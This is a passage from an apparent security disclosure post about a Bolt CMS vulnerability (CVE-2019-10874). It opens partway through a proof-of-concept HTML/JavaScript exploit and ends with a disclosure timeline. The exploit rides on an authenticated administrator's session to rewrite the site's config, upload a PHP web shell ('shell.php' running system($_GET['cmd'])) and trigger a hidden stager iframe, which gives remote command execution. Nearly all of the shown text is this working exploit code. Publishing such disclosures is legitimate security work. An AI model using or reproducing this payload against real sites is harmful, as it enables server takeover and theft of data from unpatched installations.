to+add+stikethrough%2C+using+the+%60%3Cs%3E%60-tag.%0D%0A++++blockquote%3A+false++++++++%23+Allows+the+user+to+insert+blockquotes+using+the+%60%3Cblockquote%3E%60-tag.%0D%0A++++codesnippet%3A+false+++++++%23+Allows+the+user+to+insert+code+snippets+using+%60%3Cpre%3E%3Ccode%3E%60-tags.%0D%0A++++specialchar%3A+false+++++++%23+Adds+a+button+to+insert+special+chars+like+\\\'%E2%82%AC\\\'+or+\\\'%E2%84%A2\\\'.%0D%0A++++clipboard%3A+false+++++++++%23+Adds+buttons+to+\\\'undo\\\'+and+\\\'redo\\\'.%0D%0A++++copypaste%3A+false+++++++++%23+Adds+buttons+to+\\\'cut\\\'%2C+\\\'copy\\\'+and+\\\'paste\\\'.%0D%0A++++ck%3A%0D%0A++++++++autoParagraph%3A+true++%23+If+set+to+\\\'true\\\'%2C+any+pasted+content+is+wrapped+in+%60%3Cp%3E%60-tags+for+multiple+line-breaks%0D%0A++++++++disableNativeSpellChecker%3A+true+%23+If+set+to+\\\'true\\\'+it+will+stop+browsers+from+underlining+spelling+mistakes%0D%0A++++++++allowNbsp%3A+false+++++%23+If+set+to+\\\'false\\\'%2C+the+editor+will+strip+out+%60%26nbsp%3B%60+characters.+If+set+to+\\\'true\\\'%2C+it+will+allow+them.+%C2%AF%5C_(%E3%83%84)_%2F%C2%AF%0D%0A%0D%0A%23+Bolt+uses+the+Google+maps+API+for+it\\\'s+geolocation+field+and+Google+now%0D%0A%23+requires+that+it+be+loaded+with+an+API+key+on+new+domains.+You+can+generate%0D%0A%23+a+key+at+https%3A%2F%2Fdevelopers.google.com%2Fmaps%2Fdocumentation%2Fjavascript%2Fget-api-key%0D%0A%23+and+enter+it+here+to+make+sure+that+the+geolocation+field+works.%0D%0A%23+google_api_key%3A%0D%0A%0D%0A%23+Global+option+to+enable%2Fdisable+the+live+editor%0D%0Aliveeditor%3A+false%0D%0A%0D%0A%23+Use+the+\\\'mailoptions\\\'+setting+to+configure+how+Bolt+sends+email%3A+using+\\\'smtp\\\'%0D%0A%23+or+PHP\\\'s+built-in+%60mail()%60-function.%0D%0A%0D%0A%23+Note+that+the+latter+might+_seem_+easier%2C+but+it\\\'s+been+disabled+by+a+lot+of%0D%0A%23+webhosts%2C+in+order+to+prevent+spam+from+wrongly+configured+scripts.+If+you+use%0D%0A%23+it%2C+your+mail+might+disappear+into+a+black+hole%2C+without+producing+any+errors.%0D%0A%23+Generally+speaking%2C+using+\\\'smtp\\\'+is+the+better+option%2C+so+use+that+if+possible.%0D%0A%23%0D%0A%23+Protip%3A+If+your+webhost+does+not+support+SMTP%2C+sign+up+for+a+(free)+Sparkpost%0D%0A%23+account+at+https%3A%2F%2Fwww.sparkpost.com%2Fpricing%2F+for+sending+emails+reliably.%0D%0A%23%0D%0A%23+The+mail+defaults+use+bolt%40yourhostname+with+the+site+title+as+a+default.%0D%0A%23+Override+this+with+the+senderName+and+senderMail+fields%0D%0A%0D%0A%23+mailoptions%3A%0D%0A%23+++++transport%3A+smtp%0D%0A%23+++++spool%3A+true%0D%0A%23+++++host%3A+localhost%0D%0A%23+++++port%3A+25%0D%0A%23+++++username%3A+username%0D%0A%23+++++password%3A+password%0D%0A%23+++++encryption%3A+null%0D%0A%23+++++auth_mode%3A+null%0D%0A%23+++++senderMail%3A+null%0D%0A%23+++++senderName%3A+null%0D%0A%0D%0A%23+mailoptions%3A%0D%0A%23+++++transport%3A+mail%0D%0A%23+++++spool%3A+false%0D%0A%0D%0A%23+Bolt+allows+some+modifications+to+how+\\\'strict\\\'+login+sessions+are.+For+every%0D%0A%23+option+that+is+set+to+true%2C+it+becomes+harder+for+a+bad-willing+person+to%0D%0A%23+spoof+your+login+session.+However%2C+it+also+requires+you+to+re-authenticate%0D%0A%23+more+often+if+you+change+location(ip-address)+or+your+browser+has+frequent%0D%0A%23+upgrades.+Only+change+these+if+you+know+what+you\\\'re+doing%2C+and+you\\\'re+having%0D%0A%23+issues+with+the+default+settings.%0D%0A%23%0D%0A%23+Note%3A+If+you+change+any+of+these%2C+all+current+users+will+automatically+be%0D%0A%23+++++++logged+off.%0D%0Acookies_use_remoteaddr%3A+true%0D%0Acookies_use_browseragent%3A+false%0D%0Acookies_use_httphost%3A+true%0D%0A%0D%0A%23+The+length+of+time+a+user+stays+\\\'logged+in\\\'.+Change+to+0+to+end+the+session%0D%0A%23+when+the+browser+is+closed.%0D%0A%23%0D%0A%23+The+default+is+1209600+(two+weeks%2C+in+seconds).%0D%0Acookies_lifetime%3A+1209600%0D%0A%0D%0A%23+Set+the+session+cookie+to+a+specific+domain.+Leave+blank%2C+unless+you+know+what%0D%0A%23+you\\\'re+doing.%0D%0A%23%0D%0A%23+When+set+incorrectly%2C+you+might+not+be+able+to+log+on+at+all.%0D%0A%23%0D%0A%23+If+you\\\'d+like+it+to+be+valid+for+all+subdomains+of+\\\'www.example.org\\\'%2C+set+this%0D%0A%23+to+\\\'.example.org\\\'.%0D%0Acookies_domain%3A%0D%0A%0D%0A%23+The+hash_strength+determines+the+amount+of+iterations+for+encrypting%0D%0A%23+passwords.%0D%0A%23%0D%0A%23+A+higher+number+means+a+harder+to+decrypt+password%2C+but+takes+longer+to%0D%0A%23+compute.+\\\'8\\\'+is+the+minimum%2C+\\\'10\\\'+is+the+default%2C+\\\'12\\\'+is+better.%0D%0Ahash_strength%3A+10%0D%0A%0D%0A%23+Bolt+sets+the+%60X-Frame-Options%60+and+%60Frame-Options%60+to+%60SAMEORIGIN%60+by%0D%0A%23+default%2C+to+prevent+the+web+browser+from+rendering+an+iframe+if+origin%0D%0A%23+mismatch+(i.e.+iframe+source+refers+to+a+different+domain).%0D%0A%23%0D%0A%23+Setting+this+to+\\\'false\\\'%2C+will+prevent+the+setting+of+these+headers.%0D%0A%23+headers%3A%0D%0A%23+++++x_frame_options%3A+true%0D%0A%0D%0A%23+Bolt+uses+market.bolt.cm+to+fetch+it\\\'s+extensions+by+default.+You+can%0D%0A%23+change+that+URL+here.%0D%0A%23%0D%0A%23+Do+not+change+this%2C+unless+you+know+what+you\\\'re+doing%2C+and+understand+the%0D%0A%23+associated+risks.+If+you+use+\\\'http%3A%2F%2Fmarket.bolt.cm\\\'%2C+Bolt+will+not+use%0D%0A%23+SSL%2C+increasing+the+risk+for+a+MITM+attacks.%0D%0A%23+extensions%3A%0D%0A%23+++++site%3A+\\\'https%3A%2F%2Fmarket.bolt.cm%2F\\\'%0D%0A%23+++++enabled%3A+true%0D%0A%23+++++composer%3A%0D%0A%23+++++++++minimum-stability%3A+stable++++++%23+Either+\\\'stable\\\'%2C+\\\'beta\\\'%2C+or+\\\'dev\\\'.+Setting+\\\'dev\\\'+will+allow+you+to+install+dev-master+versions+of+extensions.%0D%0A%23+++++++++prefer-stable%3A+true++++++++++++%23+Prefer+stable+releases+over+development+ones%0D%0A%23+++++++++prefer-dist%3A+true++++++++++++++%23+Forces+installation+from+package+dist+even+for+dev+versions.%0D%0A%23+++++++++prefer-source%3A+false+++++++++++%23+Forces+installation+from+package+sources+when+possible%2C+including+VCS+information.%0D%0A%23+++++++++config%3A%0D%0A%23+++++++++++++optimize-autoloader%3A+false+++++%23+Optimize+autoloader+during+autoloader+dump.%0D%0A%23+++++++++++++classmap-authoritative%3A+false++%23+Autoload+classes+from+the+classmap+only.+Implicitly+enables+%60optimize-autoloader%60.%0D%0A%0D%0A%23+Enforcing+the+use+of+SSL.+If+set%2C+all+pages+will+enforce+an+SSL+connection%2C%0D%0A%23+and+redirect+to+HTTPS+if+you+attempt+to+visit+plain+HTTP+pages.%0D%0A%23+enforce_ssl%3A+true%0D%0A%0D%0A%23+If+configured%2C+Bolt+will+trust+X-Forwarded-XXX+headers+from+the+listed+IP%0D%0A%23+addresses+and+ranges+when+determining+whether+the+current+request+is%0D%0A%23+\\\'secure\\\'.%0D%0A%23%0D%0A%23+This+is+required+to+correctly+determine+the+current+hostname+and+protocol%0D%0A%23+(HTTP+vs.+HTTPS)+when+running+behind+some+proxy%2C+e.g.+a+load+balancer%2C+cache%2C%0D%0A%23+or+SSL+proxy.%0D%0A%23%0D%0A%23+List+the+IP+addresses+or+subnets+that+you+know+are+such+proxies.%0D%0A%23%0D%0A%23+Note%3A+Allowing+hosts+here+that+may+not+be+trusted+proxies+is+a+security+risk.%0D%0A%23+++++++If+you+do+not+understand+what+this+does%2C+it+is+probably+best+to+not%0D%0A%23+++++++touch+it.%0D%0A%23+trustProxies%3A%0D%0A%23+++++-+127.0.0.1%0D%0A%23+++++-+10.0.0.0%2F8%0D%0A%0D%0A%23+If+you+want+Bolt+installation+get+news+through+a+proxy%0D%0A%23+httpProxy%3A%0D%0A%23+++++host%3A+scheme%3A%2F%2Fmy.proxy.server%3Aport%0D%0A%23+++++user%3A+%5Busr%5D%0D%0A%23+++++password%3A+%5Bpwd%5D%0D%0A%0D%0A%23+Options+for+backend+user+interface%0D%0A%23+backend%3A%0D%0A%23++++news%3A%0D%0A%23++++++++disable%3A+true+++++%23+Disable+news+panel.+Defaults+to+false.+%22Alerts%22+will+still+be+shown.%0D%0A%23++++stack%3A%0D%0A%23++++++++disable%3A+true+++++%23+Disable+stack+usage.+Defaults+to+false.%0D%0A%0D%0A%23+Options+that+will+be+forced+in+next+major+version%0D%0Acompatibility%3A%0D%0A++++%23+Whether+to+return+TemplateView+instead+of+TemplateResponse+from+Controller%5CBase%3A%3Arender()%0D%0A++++%23+Response+methods+cannot+be+used+on+TemplateView+objects.%0D%0A++++%23+Setting+this+value+to+false+is+deprecated.%0D%0A++++template_view%3A+true%0D%0A++++%23+Set+to+\\\'false\\\'+to+enable+using+a+newer+version+of+the+setcontent+parser.%0D%0A++++setcontent_legacy%3A+true%0D%0A&file_edit%5Bsave%5D=undefined\\n\";\r\n" + 
          "            var aBody = new Uint8Array(body.length);\r\n" + 
          "            for (var i = 0; i \x3c aBody.length; i++)\r\n" + 
          "              aBody[i] = body.charCodeAt(i); \r\n" + 
          "            xhr.send(new Blob([aBody]));\r\n" + 
          "        }\r\n" + 
          "\r\n" + 
          "        function UploadShell() {\r\n" + 
          "            var xhr = new XMLHttpRequest();\r\n" + 
          "            xhr.open(\"POST\", bolt_admin_url + \"/upload\", true);\r\n" + 
          "            xhr.setRequestHeader(\"Accept\", \"application\\/json, text\\/javascript, *\\/*; q=0.01\");\r\n" + 
          "            xhr.setRequestHeader(\"Accept-Language\", \"en-US,en;q=0.5\");\r\n" + 
          "            xhr.setRequestHeader(\"Content-Type\", \"multipart\\/form-data; boundary=---------------------------130713229751679908527494159\");\r\n" + 
          "            xhr.withCredentials = true;\r\n" + 
          "            var body = \"-----------------------------130713229751679908527494159\\r\\n\" + \r\n" + 
          "              \"Content-Disposition: form-data; name=\\\"files[]\\\"; filename=\\\"shell.php\\\"\\r\\n\" + \r\n" + 
          "              \"Content-Type: text/plain\\r\\n\" + \r\n" + 
          "              \"\\r\\n\" + \r\n" + 
          "              \"\\x3c?php echo(system($_GET[\\\'cmd\\\'])); ?\\x3e\\n\" + \r\n" + 
          "              \"\\r\\n\" + \r\n" + 
          "              \"-----------------------------130713229751679908527494159--\\r\\n\";\r\n" + 
          "            var aBody = new Uint8Array(body.length);\r\n" + 
          "            for (var i = 0; i \x3c aBody.length; i++)\r\n" + 
          "              aBody[i] = body.charCodeAt(i); \r\n" + 
          "            xhr.send(new Blob([aBody]));\r\n" + 
          "        }\r\n" + 
          "    }\r\n" + 
          "\r\n" + 
          "    exploit();\r\n" + 
          "\r\n" + 
          "\x3c/script\x3e\r\n" + 
          "\n" + 
          "\r\n" + 
          "-----------------------------130713229751679908527494159--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));

        setTimeout(function() {
            var dateObj = new Date();
            var folder = dateObj.getFullYear() + "-" + (String("00"+(dateObj.getMonth()+1)).slice(-2));
            document.getElementById('stager').src = target + "/files/"+folder+"/stager.html";
            console.log("Called stager! Wait a moment and access: " + target + "/files/" + folder + "/shell.php?cmd=whoami");
         }, 2000);

      }

      window.onload = function() {
        exploit();
      };

    </script>
     <iframe id="stager" style="width:0;height:0;border:0;border:none" src=""></iframe>
  </body>
</html>

{% endhighlight %}

## Disclosure Timeline

- 2019/04/02 - Vulnerabilities Discovered
- 2019/04/03 - Vulnerabilities Reported to Bolt CMS (CVE-2019-10874)
- 2019/04/03 - Developer Acknowledged Vulnerability and started to address issues (first [Pull][first-pull])
- 2019/04/11 - Version 3.6.7 released ([link][release])


[bolt]: https://bolt.cm/
[first-pull]: https://github.com/bolt/bolt/pull/7768/commits/91187aef36363a870d60b0a3c1bf8507af34c9e4
[release]: https://github.com/bolt/bolt/releases/tag/v3.6.7